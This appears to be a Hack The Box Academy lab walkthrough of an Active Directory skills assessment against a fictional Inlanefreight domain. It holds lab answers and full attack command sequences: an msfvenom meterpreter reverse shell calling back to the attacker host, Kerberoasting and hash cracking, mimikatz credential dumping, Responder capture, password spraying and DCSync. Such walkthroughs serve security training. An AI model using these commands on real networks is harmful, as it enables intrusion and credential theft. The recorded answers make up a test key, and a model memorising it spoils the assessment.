


# [Active Directory Enumeration and Attacks](https://academy.hackthebox.com/module/details/143)

## Skills Assessment - Active Directory Enumeration and Attacks

### Part I - External Penetration Test

> A team member started an **external penetration test** and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

Questions:
1. Submit the contents of the `flag.txt` file on the `Administrator` desktop of the web server. `JusT_****************`
2. Kerberoast an account with the SPN `MSSQLSvc/SQL01.inlanefreight.local:1433` and submit the account name as your answer. `svc_sql`
3. Crack the account's password. Submit the cleartext value. `lucky7`
4. Submit the contents of the `flag.txt` file on the `Administrator` desktop on `MS01`. `spn$_************************`
5. Find cleartext credentials for another domain user. Submit the username as your answer. `tpetty`
6. Submit this user's cleartext password. `Sup3rS3cur3D0m@inU2eR`
7. What attack can this user perform? `DCSync`
8. Take over the domain and submit the contents of the `flag.txt` file on the `Administrator` Desktop on `DC01`. `r3pli**************`

#### External Information Gathering

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig

[SNIP]

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.194  netmask 255.255.254.0  destination 10.10.15.194
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 10.129.217.212 -T4

[SNIP]

PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
```

```
┌──(nabla㉿kali)-[~]
└─$ firefox http://10.129.217.212:80/uploads/ &
```

#### Initial Access - Antak Web Shell




```
PS> whoami
nt authority\system

PS> hostname
WEB-WIN01
```

```
PS> type c:\users\administrator\desktop\flag.txt
JusT_**************** 📌
```

#### Information Gathering - Network Information

```
PS> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::3172:6c1b:2c37:3004%7
   IPv4 Address. . . . . . . . . . . : 172.16.6.100
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.6.1

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::1fc
   IPv6 Address. . . . . . . . . . . : dead:beef::9593:d345:f64a:46ba
   Link-local IPv6 Address . . . . . : fe80::9593:d345:f64a:46ba%3
   IPv4 Address. . . . . . . . . . . : 10.129.217.212
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:fe94:53e%3
                                       10.129.0.1
```

```
PS C:\Windows\system32> for ($i=0; $i -lt 255; $i++){ping /n 1 172.16.6.$i | findstr "TTL"}

[SNIP]

Reply from 172.16.6.3: bytes=32 time<1ms TTL=128
Reply from 172.16.6.50: bytes=32 time<1ms TTL=128
Reply from 172.16.6.100: bytes=32 time<1ms TTL=128
```

#### Initial Access - Metasploit Reverse Shell

```
┌──(nabla㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.194 LPORT=1337 -f exe -o revsh.exe
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.15.194; set LPORT 1337; run'

PAYLOAD => windows/x64/meterpreter/reverse_tcp
LHOST => 10.10.15.194
LPORT => 1337
[*] Started reverse TCP handler on 10.10.15.194:1337

[CONTINUE]
```

```
PS> c:\users\public\revsh.exe
```

```
[CONTINUE]

[*] Meterpreter session 1 opened (10.10.15.194:1337 -> 10.129.143.162:49692) at 2025-08-06 02:36:28 -0500

(Meterpreter 1)(C:\windows\system32\inetsrv) > 
```

```
(Meterpreter 1)(C:\windows\system32\inetsrv) > migrate -N lsass.exe
[*] Migrating from 1684 to 660...
[*] Migration completed successfully.
```

#### Pivoting and Dynamic Port Fowarding

```
(Meterpreter 2)(C:\Windows\system32) > run autoroute -s 172.16.6.0/24

[SNIP]

[+] Added route to 172.16.6.0/255.255.255.0 via 10.129.143.162

(Meterpreter 2)(C:\Windows\system32) > run autoroute -p

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.6.0         255.255.255.0      Session 1
```

```
┌──(nabla㉿kali)-[~]
└─$ tail -2 /etc/proxychains.conf

socks4 127.0.0.1 9050
```

```
[msf](Jobs:1 Agents:1) >> use auxiliary/server/socks_proxy
[msf](Jobs:0 Agents:1) auxiliary(server/socks_proxy) >> set srvport 9050
[msf](Jobs:0 Agents:1) auxiliary(server/socks_proxy) >> set version 4a
[msf](Jobs:0 Agents:1) auxiliary(server/socks_proxy) >> run
[*] Auxiliary module running as background job 0.
```

#### Information Gathering - Network Information

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains netexec smb 172.16.6.3 172.16.6.50 172.16.6.100

[SNIP]

SMB         172.16.6.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.6.50     445    MS01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.6.100    445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '172.16.6.3\tDC01.INLANEFREIGHT.LOCAL\n172.16.6.50\tMS01.INLANEFREIGHT.LOCAL\n172.16.6.100\tWEB01.INLANEFREIGHT.LOCAL' | sudo tee -a /etc/hosts

172.16.6.3	DC01.INLANEFREIGHT.LOCAL
172.16.6.50	MS01.INLANEFREIGHT.LOCAL
172.16.6.100	WEB01.INLANEFREIGHT.LOCAL
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains nmap -Pn -sT -p53,80,88,135,139,389,445,3389,5985 172.16.6.3 172.16.6.50 -T4

[SNIP]

Nmap scan report for 172.16.6.3

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
5985/tcp open  wsman

[SNIP]

Nmap scan report for 172.16.6.50

PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

#### Active Directory Kerberoasting Attack

```
PS C:\Windows\system32> setspn -Q */*

[SNIP]

CN=krbtgt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	kadmin/changepw
CN=svc_sql,CN=Users,DC=INLANEFREIGHT,DC=LOCAL 📌
	MSSQLSvc/SQL01.inlanefreight.local:1433
CN=sqlprod,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	MSSQLSvc/SQL02.inlanefreight.local:1433
CN=sqldev,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	MSSQLSvc/SQL-DEV01.inlanefreight.local:1433
```

```
PS C:\Windows\system32> Import-Module c:\users\public\powerview.ps1

PS C:\Windows\system32> Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat

[SNIP]

SamAccountName       : svc_sql
DistinguishedName    : CN=svc_sql,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQLSvc/SQL01.inlanefreight.local:1433
TicketByteHexStream  : 
Hash                 : $krb5tgs$23$*svc_sql$INLANEFREIGHT.LOCAL$MSSQLSvc/SQL01.inlanefreight.local:1433*$7F30CBA021A8BF85C999D1DA2DB9B993$82E4FA2F9EC73236B983EE811CD4ECB451274C6DB4F79BE34049F9E4E974A1DCE46ECDF6F17BE30B9A570C33BB68B2D517349EEFC613C2B5C44368523BA9D6EC6874309BA3BCBBCA1C65AEB57ADB83B6F3F8D3977DED5

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ hashcat -m 13100 svc_sql.hash /usr/share/wordlists/rockyou.txt

[SNIP]

51fbdf0717d9bc9d582a69f74563a521e927f59e261af9740bb2e0174006c08fd989ab0ae0c96ba031f892d88f205a2c649bbf59783b0a3d69111829849c0fb0c02bee192ef9ba4751c5024d02b601b6a13c2fd56ec6f99fac4aa940e3eda5cdc54a89732f6ad453183a2cf7b44b24e36157e8e6b7730afc4acbd83343ffff387aaaaa817275d0d64c5c6fe8fbe:lucky7 📌

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
```

#### Windows Lateral Movement

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains netexec smb 172.16.6.50 -u svc_sql -p 'lucky7'

[SNIP]

WINRM       172.16.6.50     5985   MS01             [+] INLANEFREIGHT.LOCAL\svc_sql:lucky7 (Pwn3d!)
```

```yaml
credentials:
    username: INLANEFREIGHT.LOCAL\svc_sql
    password: 'lucky7'
    host: 172.16.6.50 (MS01)
    port: 5985 (WINRM)
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q evil-winrm -i 172.16.6.50 -u svc_sql -p 'lucky7'

[SNIP]

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_sql.INLANEFREIGHT\Documents>
```

```
*Evil-WinRM* PS C:\Users\svc_sql.INLANEFREIGHT\Documents> type c:\users\administrator\desktop\flag.txt
spn$_************************ 📌
```

```
┌──(nabla㉿kali)-[~]
└─$ proxychains xfreerdp /v:172.16.6.50 /u:svc_sql /p:'lucky7' /dynamic-resolution /drive:shared,~/shared +clipboard /cert-ignore
```

#### Windows Credential Extraction

```
PS C:\Windows\system32> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 tpetty                console             1  Active      none   8/7/2025 4:09 AM
>svc_sql               rdp-tcp#0           2  Active          .  8/7/2025 4:09 AM
```

```
PS C:\Windows\system32> c:\users\public\mimikatz.exe "token::elevate" "sekurlsa::logonpasswords" "exit"

[SNIP]

Authentication Id : 0 ; 229982 (00000000:0003825e)
Session           : Interactive from 1
User Name         : tpetty
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 8/6/2025 2:28:15 AM
SID               : S-1-5-21-2270287766-1317258649-2146029398-4607
        msv :
         [00000003] Primary
         * Username : tpetty 📌
         * Domain   : INLANEFREIGHT
         * NTLM     : fd37b6fec5704cadabb319cebf9e3a3a
         * SHA1     : 38afea42a5e28220474839558f073979645a1192
         * DPAPI    : da2ec07551ab1602b7468db08b41e3b2
        tspkg :
        wdigest :
         * Username : tpetty
         * Domain   : INLANEFREIGHT
         * Password : (null) ❌
```

```
PS C:\Windows\system32> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

The operation completed successfully.

PS C:\Windows\system32> shutdown.exe /r /t 0 /f
```

```
PS C:\Windows\system32> c:\users\public\mimikatz.exe "token::elevate" "sekurlsa::logonpasswords" "exit"

[SNIP]

Authentication Id : 0 ; 195160 (00000000:0002fa58)
Session           : Interactive from 1
User Name         : tpetty
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 8/7/2025 4:09:51 AM
SID               : S-1-5-21-2270287766-1317258649-2146029398-4607
        msv :
         [00000003] Primary
         * Username : tpetty
         * Domain   : INLANEFREIGHT
         * NTLM     : fd37b6fec5704cadabb319cebf9e3a3a
         * SHA1     : 38afea42a5e28220474839558f073979645a1192
         * DPAPI    : da2ec07551ab1602b7468db08b41e3b2
        tspkg :
        wdigest :
         * Username : tpetty
         * Domain   : INLANEFREIGHT
         * Password : Sup3rS3cur3D0m@inU2eR 📌
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains netexec smb 172.16.6.50 -u tpetty -p 'Sup3rS3cur3D0m@inU2eR'

[SNIP]

SMB         172.16.6.50     445    MS01             [+] INLANEFREIGHT.LOCAL\tpetty:Sup3rS3cur3D0m@inU2eR 
```

```yaml
credentials:
    username: INLANEFREIGHT.LOCAL\tpetty
    password: 'Sup3rS3cur3D0m@inU2eR'
    host: 172.16.6.3 (DC01)
    port: 445 (SMB)
```

#### Active Directory User ACL Enumeration

```
PS C:\Windows\system32> Import-Module c:/users/public/PowerView.ps1

PS C:\Windows\system32> $sid = Convert-NameToSid tpetty; Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} | Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, ObjectAceType, SecurityIdentifier

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set 📌
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
ObjectAceType         : DS-Replication-Get-Changes 📌
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
ObjectAceType         : DS-Replication-Get-Changes-All 📌
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains netexec ldap 172.16.6.3 -u tpetty -p 'Sup3rS3cur3D0m@inU2eR' -M daclread -o TARGET_DN="DC=inlanefreight,DC=local" ACTION=read RIGHTS=DCSync

[SNIP]

DACLREAD    172.16.6.3      389    DC01             ACE[15] info                
DACLREAD    172.16.6.3      389    DC01                 ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
DACLREAD    172.16.6.3      389    DC01                 ACE flags                 : None
DACLREAD    172.16.6.3      389    DC01                 Access mask               : ControlAccess
DACLREAD    172.16.6.3      389    DC01                 Flags                     : ACE_OBJECT_TYPE_PRESENT
DACLREAD    172.16.6.3      389    DC01                 Object type (GUID)        : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
DACLREAD    172.16.6.3      389    DC01                 Trustee (SID)             : Domain Controllers (S-1-5-21-2270287766-1317258649-2146029398-516)
DACLREAD    172.16.6.3      389    DC01             ACE[16] info                
DACLREAD    172.16.6.3      389    DC01                 ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
DACLREAD    172.16.6.3      389    DC01                 ACE flags                 : None
DACLREAD    172.16.6.3      389    DC01                 Access mask               : ControlAccess
DACLREAD    172.16.6.3      389    DC01                 Flags                     : ACE_OBJECT_TYPE_PRESENT
DACLREAD    172.16.6.3      389    DC01                 Object type (GUID)        : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
DACLREAD    172.16.6.3      389    DC01                 Trustee (SID)             : tpetty (S-1-5-21-2270287766-1317258649-2146029398-4607)
DACLREAD    172.16.6.3      389    DC01             ACE[29] info                
DACLREAD    172.16.6.3      389    DC01                 ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
DACLREAD    172.16.6.3      389    DC01                 ACE flags                 : None
DACLREAD    172.16.6.3      389    DC01                 Access mask               : ControlAccess
DACLREAD    172.16.6.3      389    DC01                 Flags                     : ACE_OBJECT_TYPE_PRESENT
DACLREAD    172.16.6.3      389    DC01                 Object type (GUID)        : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
DACLREAD    172.16.6.3      389    DC01                 Trustee (SID)             : Administrators (S-1-5-32-544)
```

#### Active Directory DCSync Attack

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec smb 172.16.6.3 -u tpetty -p 'Sup3rS3cur3D0m@inU2eR' --ntds --user administrator

[SNIP]

SMB         172.16.6.3      445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.6.3      445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0:::
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec smb 172.16.6.3 -u administrator -H '27dedb1dab4d8545c6e1c66fba077da0'

[SNIP]

SMB         172.16.6.3      445    DC01             [+] INLANEFREIGHT.LOCAL\administrator:27dedb1dab4d8545c6e1c66fba077da0 (Pwn3d!)
```

#### Windows Lateral Movement

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec smb 172.16.6.3 -u administrator -H '27dedb1dab4d8545c6e1c66fba077da0' -x 'type c:\users\administrator\desktop\flag.txt'

[SNIP]

SMB         172.16.6.3      445    DC01             [+] Executed command via wmiexec
SMB         172.16.6.3      445    DC01             r3pli************** 📌
```

---

### Part II - Internal Penetration Test

> Our client Inlanefreight has contracted us again to perform a full-scope **internal penetration test**. The client is looking to find and remediate as many flaws as possible before going through a merger & acquisition process. The new CISO is particularly worried about more nuanced AD security flaws that may have gone unnoticed during previous penetration tests. The client is not concerned about stealth/evasive tactics and has also provided us with a Parrot Linux VM within the internal network to get the best possible coverage of all angles of the network and the Active Directory environment. Connect to the internal attack host via SSH (you can also connect to it using `xfreerdp` as shown in the beginning of this module) and begin looking for a foothold into the domain. Once you have a foothold, enumerate the domain and look for flaws that can be utilized to move laterally, escalate privileges, and achieve domain compromise.

> SSH to `10.129.110.45` with user `htb-student` and password "HTB_@cademy_stdnt!"

Questions:
1. Obtain a password hash for a domain user account that can be leveraged to gain a foothold in the domain. What is the account name? `AB920`
2. What is this user's cleartext password? `weasal`
3. Submit the contents of the `C:\flag.txt` file on `MS01`. `aud1t*******************`
4. Use a common method to obtain weak credentials for another user. Submit the username for the user whose credentials you obtain. `BR086`
5. What is this user's password? `Welcome1`
6. Locate a configuration file containing an MSSQL connection string. What is the password for the user listed in this file? `D@ta_bAse_adm1n!`
7. Submit the contents of the `flag.txt` file on the Administrator Desktop on the `SQL01` host. `s3imp****************`
8. Submit the contents of the `flag.txt` file on the Administrator Desktop on the `MS01` host. `exc3s*******************`
9. Obtain credentials for a user who has `GenericAll` rights over the Domain Admins group. What's this user's account name? `CT059`
10. Crack this user's password hash and submit the cleartext password as your answer. `charlie1`
11. Submit the contents of the `flag.txt` file on the `Administrator` desktop on the `DC01` host. `acLs_************`
12. Submit the NTLM hash for the `KRBTGT` account for the target domain after achieving domain compromise. `7eba70412d81c1cd030d72a3e8dbe05f`

#### Initial Access - SSH

```
┌──(nabla㉿kali)-[~]
└─$ ssh htb-student@10.129.110.45

Linux skills-par01 5.15.0-15parrot1-amd64 #1 SMP Debian 5.15.15-15parrot2 (2022-02-15) x86_64

[SNIP]

┌─[htb-student@skills-par01]─[~]
└──╼ $
```

#### Information Gathering - Network Information

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ ifconfig | grep 'inet' -B1 | grep -v 'inet6'

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.110.45  netmask 255.255.0.0  broadcast 10.129.255.255
--
ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.7.240  netmask 255.255.254.0  broadcast 172.16.7.255
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ sudo nmap -sn 172.16.7.0/23 -T4 | grep 'Nmap scan report for' | cut -d ' ' -f 5-

inlanefreight.local (172.16.7.3)
172.16.7.50
172.16.7.60
172.16.7.240
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ sudo nmap -Pn -sS -p- 172.16.7.3 172.16.7.50 172.16.7.60 -T4

[SNIP]

Nmap scan report for inlanefreight.local (172.16.7.3)

PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws

[SNIP]

Nmap scan report for 172.16.7.50

PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman

[SNIP]

Nmap scan report for 172.16.7.60

PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ sudo crackmapexec smb 172.16.7.3 172.16.7.50 172.16.7.60

[SNIP]

SMB         172.16.7.50     445    MS01            [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.7.60     445    SQL01            [*] Windows 10.0 Build 17763 x64 (name:SQL01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.7.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ echo -e '172.16.7.3\tDC01.INLANEFREIGHT.LOCAL INLANEFREIGHT.LOCAL\n172.16.7.50\tMS01.INLANEFREIGHT.LOCAL\n172.16.7.60\tSQL01.INLANEFREIGHT.LOCAL' | sudo tee -a /etc/hosts

172.16.7.3	DC01.INLANEFREIGHT.LOCAL INLANEFREIGHT.LOCAL
172.16.7.50	MS01.INLANEFREIGHT.LOCAL
172.16.7.60	SQL01.INLANEFREIGHT.LOCAL
```

#### Windows NTLM Hash Capture and Cracking

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ sudo responder -I ens224 -wrvf

[SNIP]

[SMB] NTLMv2-SSP Client   : 172.16.7.3
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\AB920 📌
[SMB] NTLMv2-SSP Hash     : AB920::INLANEFREIGHT:0b3f324120f4a827:2D899165ED1E15CB8D05CF3728B5C9C7:010100000000000080D3472D4005DC01799A6E9EDD7B15B000000000020008005200310046004A0001001E00570049004E002D0059005600350050004C004C004C003200320033004E0004003400570049004E002D0059005600350050004C004C004C003200320033004E002E005200310046004A002E004C004F00430041004C00030014005200310046004A002E004C004F00430041004C00050014005200310046004A002E004C004F00430041004C000700080080D3472D4005DC0106000400020000000800300030000000000000000000000000200000F6BFA191CFBC2DDB3B6ABD07D30EB81A9260490D057BFE5E0E831224BB9152860A0010000000000000000000000000000000000009002E0063006900660073002F0049004E004C0041004E0045004600520049004700480054002E004C004F00430041004C00000000000000000000000000
```

```
┌──(nabla㉿kali)-[~]
└─$ hashcat -m 5600 AB920.hash /usr/share/wordlists/rockyou.txt

[SNIP]

AB920::INLANEFREIGHT:0b3f324120f4a827:2d899165ed1e15cb8d05cf3728b5c9c7:010100000000000080d3472d4005dc01799a6e9edd7b15b000000000020008005200310046004a0001001e00570049004e002d0059005600350050004c004c004c003200320033004e0004003400570049004e002d0059005600350050004c004c004c003200320033004e002e005200310046004a002e004c004f00430041004c00030014005200310046004a002e004c004f00430041004c00050014005200310046004a002e004c004f00430041004c000700080080d3472d4005dc0106000400020000000800300030000000000000000000000000200000f6bfa191cfbc2ddb3b6abd07d30eb81a9260490d057bfe5e0e831224bb9152860a0010000000000000000000000000000000000009002e0063006900660073002f0049004e004c0041004e0045004600520049004700480054002e004c004f00430041004c00000000000000000000000000:weasal 📌

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
```

#### Windows Lateral Movement 

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ sudo crackmapexec smb 172.16.7.50 -u AB920 -p 'weasal'

[SNIP]

SMB         172.16.7.50      445    MS01             [+] INLANEFREIGHT.LOCAL\AB920:weasal
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ sudo crackmapexec winrm 172.16.7.50 -u AB920 -p 'weasal'

[SNIP]

WINRM       172.16.7.50     5985   NONE             [+] None\AB920:weasal (Pwn3d!)
```

```yaml
credentials:
    username: INLANEFREIGHT.LOCAL\AB920
    password: 'weasal'
    host: 172.16.7.50 (MS01)
    port: 5985 (WINRM)
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ evil-winrm -i 172.16.7.50 -u AB920 -p 'weasal'

[SNIP]

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\AB920\Documents>
```

```
*Evil-WinRM* PS C:\Users\AB920\Documents> whoami
inlanefreight\ab920
```

```
*Evil-WinRM* PS C:\Users\AB920\Documents> type c:/flag.txt
aud1t******************* 📌
```

#### Windows SMB Password Spraying

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ sudo crackmapexec smb 172.16.7.3 -u AB920 -p 'weasal' --users | awk '{print $5}' | grep -v -E 'Username|]' | awk '{print tolower($s0)}' | tee ./domain_users.txt

inlanefreight.local\administrator
inlanefreight.local\guest
inlanefreight.local\krbtgt
inlanefreight.local\ny340
inlanefreight.local\ro050
inlanefreight.local\ff479

[SNIP]
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ wc -l domain_users.txt

2901 domain_users.txt
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ sudo crackmapexec smb 172.16.7.3 -u domain_users.txt -p 'Welcome1'

[SNIP]

SMB         172.16.7.3      445    DC01             [+] inlanefreight.local\br086:Welcome1 📌
```

```yaml
credentials:
    username: INLANEFREIGHT.LOCAL\BR086
    password: 'Welcome1'
    host: 172.16.7.3 (DC01)
    port: 445 (SMB)
```

#### Windows SMB Share Enumeration

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ sudo crackmapexec smb 172.16.7.3 -u BR086 -p 'Welcome1' --shares

[SNIP]

SMB         172.16.7.3      445    DC01             [+] Enumerated shares
SMB         172.16.7.3      445    DC01             Share           Permissions     Remark
SMB         172.16.7.3      445    DC01             -----           -----------     ------
SMB         172.16.7.3      445    DC01             ADMIN$                          Remote Admin
SMB         172.16.7.3      445    DC01             C$                              Default share
SMB         172.16.7.3      445    DC01             Department Shares READ            Share for department users
SMB         172.16.7.3      445    DC01             IPC$            READ            Remote IPC
SMB         172.16.7.3      445    DC01             NETLOGON        READ            Logon server share 
SMB         172.16.7.3      445    DC01             SYSVOL          READ            Logon server share 
```

#### Windows Credential Hunting

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ sudo crackmapexec smb 172.16.7.3 -u BR086 -p 'Welcome1' --spider 'Department Shares' --content --regex 'Password|password|passwd|pass|User|user|Username|username'

[SNIP]

SMB         172.16.7.3      445    DC01             //172.16.7.3/Department Shares/IT/Private/Development/web.config [lastm:'2022-04-01 11:05' size:1203 offset:1203 regex:'b'Password|password|passwd|pass|User|user|Username|username'']
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ smbclient --user='BR086@INLANEFREIGHT.LOCAL%Welcome1' '//172.16.7.3/Department Shares' -c 'get IT\Private\Development\web.config web.config'

getting file \IT\Private\Development\web.config of size 1203 as web.config (1174.7 KiloBytes/sec) (average 1174.8 KiloBytes/sec)
```

```
┌─[htb-student@skills-par01]─[~]
└──╼ $ cat web.config | grep -i 'password'

<add name="ConString" connectionString="Environment.GetEnvironmentVariable("computername")+'\SQLEXPRESS';Initial Catalog=Northwind;User ID=netdb;Password=D@ta_bAse_adm1n!"/> 📌
```

